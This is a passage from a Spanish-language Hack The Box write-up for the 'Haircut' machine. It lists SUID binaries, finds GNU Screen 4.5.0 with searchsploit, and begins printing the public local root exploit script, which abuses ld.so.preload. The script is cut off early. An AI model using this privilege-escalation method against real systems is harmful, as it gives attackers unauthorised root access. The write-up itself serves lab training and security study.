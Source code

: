 ```bash
./usr/bin/pkexec
./usr/bin/newuidmap
./usr/bin/newgrp
./usr/bin/newgidmap
./usr/bin/gpasswd
./usr/bin/at
./usr/bin/passwd
./usr/bin/screen-4.5.0
./usr/bin/chsh
./usr/bin/chfn
./usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
./usr/lib/dbus-1.0/dbus-daemon-launch-helper
./usr/lib/snapd/snap-confine
./usr/lib/eject/dmcrypt-get-device
./usr/lib/openssh/ssh-keysign
./usr/lib/policykit-1/polkit-agent-helper-1
www-data@haircut:/$
```

Tenemos el binario `screen-4.5.0`, así que vamos a buscar un posible exploit público asociado:

```bash
❯ searchsploit screen 4.5.0
----------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                 |  Path
----------------------------------------------------------------------------------------------- ---------------------------------
GNU Screen 4.5.0 - Local Privilege Escalation                                                  | linux/local/41154.sh
GNU Screen 4.5.0 - Local Privilege Escalation (PoC)                                            | linux/local/41152.txt
----------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

Vemos dos recursos, un script en bash y otro una prueba de concepto (PoC). Para este caso utilizaremos el script; sin embargo, no vamos a ejecutarlo en la máquina víctima, vamos a ver que hace primeramente:

```bash
❯ searchsploit -m linux/local/41154.sh
  Exploit: GNU Screen 4.5.0 - Local Privilege Escalation
      URL: https://www.exploit-db.com/exploits/41154
     Path: /usr/share/exploitdb/exploits/linux/local/41154.sh
File Type: Bourne-Again shell script, ASCII text executable, with CRLF line terminators

Copied to: /home/k4miyo/Documentos/HTB/Haircut/exploits/41154.sh


❯ mv 41154.sh screen_privesc.sh
❯ catn screen_privesc.sh
#!/bin/bash
# screenroot.sh
# setuid screen v4.5.0 local root exploit
# abuses ld.so.preload overwriting to get root.
# bug: https://lists.gnu.org/archive/html/screen-devel/2017-01/msg00025.html
# HACK THE PLANET
# ~ infodox (25/1/2017) 
echo "~ gnu/screenroot ~"
echo "[+] First, we create our shell and library..."
cat << EOF > /tmp/libhax.c
#include <stdio.h>
```